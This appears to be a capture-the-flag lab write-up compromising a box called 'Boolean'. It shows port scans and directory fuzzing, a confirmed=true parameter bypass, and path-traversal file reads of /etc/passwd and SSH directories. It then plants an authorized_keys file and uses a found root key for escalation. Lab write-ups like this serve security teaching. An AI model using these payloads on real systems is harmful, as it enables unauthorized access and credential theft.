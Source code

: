 `nmap -A -T4 -p- 192.168.110.231`

```
PORT      STATE  SERVICE VERSION
22/tcp    open   ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 37:80:01:4a:43:86:30:c9:79:e7:fb:7f:3b:a4:1e:dd (RSA)
|   256 b6:18:a1:e1:98:fb:6c:c6:87:55:45:10:c6:d4:45:b9 (ECDSA)
|_  256 ab:8f:2d:e8:a2:04:e7:b7:65:d3:fe:5e:93:1e:03:67 (ED25519)
80/tcp    open   http
| http-title: Boolean
|_Requested resource was http://192.168.110.231/login
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, GenericLines, Help, JavaRMI, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, NCP, NotesRPC, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, WMSRequest, X11Probe, afp, giop, ms-sql-s, oracle-tns: 
|     HTTP/1.1 400 Bad Request
|   FourOhFourRequest, GetRequest, HTTPOptions: 
|     HTTP/1.0 403 Forbidden
|     Content-Type: text/html; charset=UTF-8
|_    Content-Length: 0
3000/tcp  closed ppp
33017/tcp open   http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Development
```


So we mainly have two web servers being hosted on this target, on port 80 and 33017. Lets start enumerating these services and see what we can find.

# 80
On port 80 we are prompted by a login page for 'The Only True Free Storage' we can quickly test basic credentials or lookup credentials based on the app name. It doesn't appear that this application name finds anything and some basic credentials such as `admin:admin` `admin:password` did not work.

![](Images/Pasted%20image%2020250510114522.png)

Lets see if we can register a user to find anything further. We can use a temp email to get the confirmation email (If it actually sends something which I doubt it does).


```
ffuf -ic -c -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://192.168.110.231:80/FUZZ
```

```
login                   [Status: 200, Size: 2413, Words: 452, Lines: 59, Duration: 158ms]
register                [Status: 200, Size: 2765, Words: 548, Lines: 66, Duration: 88ms]
404                     [Status: 200, Size: 1722, Words: 310, Lines: 68, Duration: 65ms]
500                     [Status: 200, Size: 1635, Words: 289, Lines: 67, Duration: 106ms]
422                     [Status: 200, Size: 1705, Words: 305, Lines: 68, Duration: 63ms]
filemanager             [Status: 302, Size: 94, Words: 5, Lines: 1, Duration: 79ms]
```

After making an account we are stuck on the confirmation page. Lets load this in burp and see if we can find anything of interest.

On our login request it seems like a standard post request passing our information to the server
![](Images/Pasted%20image%2020250510120451.png)

After the POST is does my guess is that it does some checks on the backend via the application.js and user_confim.js and if its all true it will allow us to file manager. 

In one of the post requests I see it responds with some json file which contains what it is checking for.

![](Images/Pasted%20image%2020250510121621.png)

If we can send the parameter `confirmed=true` it may let us in

Decoding the URL Encoded String in the post request for user email gets us the following so what if we pass the parameter for confirmed to be true.

```
user[email]=
user[confirmed]=
user%5Bconfirmed%5D=true
```

We get a successful update to the parameter through the API

![](Images/Pasted%20image%2020250510122028.png)

Now we should be able to login as the test user.

![](Images/Pasted%20image%2020250510122057.png)
# 33017

On 33017 we seem to have a blank webpage that doesn't really provide us with much as its for planned expansion

![](Images/Pasted%20image%2020250510114724.png)

```
ffuf -ic -c -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://192.168.110.231:33017/FUZZ
```

```
info                    [Status: 301, Size: 326, Words: 20, Lines: 10, Duration: 56ms]
admin                   [Status: 301, Size: 327, Words: 20, Lines: 10, Duration: 55ms]
cgi-bin                 [Status: 301, Size: 329, Words: 20, Lines: 10, Duration: 8125ms]
boolean                 [Status: 301, Size: 329, Words: 20, Lines: 10, Duration: 55ms]
```

Directory enumeration just shows we are unauthorized to the resources. Lets dig deeper into these to see if we can find anything.

```
ffuf -ic -c -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://192.168.110.231:33017/admin/FUZZ.php
```

![](Images/Pasted%20image%2020250510115821.png)

Finds us a cmd.php file within the admin directory that we have access to. Lets go there and see what we find. I tried treating this like a reverse shell and it did not seem to get any results. I think this isn't meant to be our foothold.

```
http://192.168.110.231:33017/admin/cmd.php?cmd=id
```

# Exploit

We were able to send a modified POST request in order to change the values of `user[confirmed]` to bypass email authentication and get access to the File Manager application. Now that we have direct file upload potential we can attempt to establish a shell. I am going to utilize a simple php reverse shell.

After uploading the file, it does not appear that we can get execution as it downloads the file from the URL below. When we see values in the URL we can most certainly test for LFI instead.

```
http://192.168.110.231/?cwd=&file=shell.php&download=true
```

After not getting execution lets do some basic LFI payload testing. Lets modify the file parameter and see if we can get file inclusion. It appears that its passing the `cwd` parameter to determine what directory to pull from and then pass the filename

So for LFI we would want to pass the following parameters as an example.

```
?cwd=../../../../../../../etc&file=passwd&download=true
```

After passing those parameters to the system we got the passwd file to download.

![](Images/Pasted%20image%2020250510123505.png)

So using this we know ssh is open, so what if we could download an SSH key and use that for authentication to establish a foothold.

We can easily grab the ssh config using the following

```
?cwd=../../../../../../../etc/ssh&file=ssh_config&download=no
```

```
#   IdentityFile ~/.ssh/id_rsa
#   IdentityFile ~/.ssh/id_dsa
#   IdentityFile ~/.ssh/id_ecdsa
#   IdentityFile ~/.ssh/id_ed25519
```

After doing some testing with the application we can remove the parameters to show the directory on screen. Like the following

```
http://192.168.110.231/?cwd=../../../../../../../../../home/remi/.ssh
```

![](Images/Pasted%20image%2020250510124445.png)

This means we can directly upload a file to the users .ssh directory. Such as a authorized key. So lets do that and see if we can get authentication to the host.

```
ssh-keygen -t rsa
cp /home/yourusername/.ssh/id_rsa.pub authorized_keys
```

Then upload the authorized key to remi's ssh folder.

![](Images/Pasted%20image%2020250510124902.png)

```
cp /home/kali/.ssh/id_rsa id_rsa
```

Once the file is uploaded we can use our id_rsa to authenticate.

![](Images/Pasted%20image%2020250510124951.png)

First order of business is to grab the local flag.

![](Images/Pasted%20image%2020250510125019.png)
# Post Exploitation

As a nice way to get some quick information I will first start off my transfering over linpeas and running it to see if we can find anything interesting.

![](Images/Pasted%20image%2020250510125845.png)

First thing of note is that there is a local sql server running. Lets leave that for later if we get desperate.

We end up finding a root private SSH key 

![](Images/Pasted%20image%2020250510130318.png)

navigate to the keys directory and see if we can get escalation with it.

```
ssh -i root -o IdentitiesOnly=yes root@127.0.0.1
```

![](Images/Pasted%20image%2020250510131152.png)





